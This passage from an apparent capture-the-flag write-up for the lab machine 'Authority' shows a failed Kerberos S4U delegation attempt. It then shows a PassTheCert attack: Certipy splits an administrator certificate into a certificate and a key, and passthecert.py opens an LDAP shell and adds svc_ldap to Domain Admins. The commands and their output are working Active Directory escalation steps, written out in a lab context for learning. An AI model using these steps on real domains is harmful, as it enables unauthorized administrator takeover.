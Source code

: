 ```bash

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Probably user Abraxas$ does not have constrained delegation permissions or impersonated user does not exist
```

### PassTheCert Attack

The remaining step involves attempting the PassTheCert attack, and I found an informative blog post [here](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html). It can be used to:

- Elevate privileges, granting the user DCSync privileges.
- Modify the password for a certain user.
- Get a LDAP shell. With an admin certificate, I can also add an user to the domain admin group

For this attack the certificate and the private keys need to be separate. Certipy's cert sub-command makes this process straightforward.

```bash
❯ certipy cert -pfx administrator_authority.pfx -nokey -out admin.crt
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'admin.crt'

❯ certipy cert -pfx administrator_authority.pfx -nocert -out admin.key
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Writing private key to 'admin.key'
```

Utilizing the [Python script from AlmondOffSec](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python), I was able to get an interactive LDAP shell. Given that the certificate belongs to Administrator, I can add the `svc_ldap` user to the `Domain Admins` group using the `add_user_to_group` command. Since this script uses Impacket under the hood, I can also add a new computer using the `add_computer` command within the script.

```bash
❯ python passthecert.py -domain authority.htb -dc-ip 10.10.11.222 -crt certipy/admin.crt -key certipy/admin.key -action ldap-shell -port 636
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

# add_user_to_group svc_ldap "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK

# exit
```

Seems `svc_ldap` is now a part of the `Domain Admins` group, and hence have admin privileges.
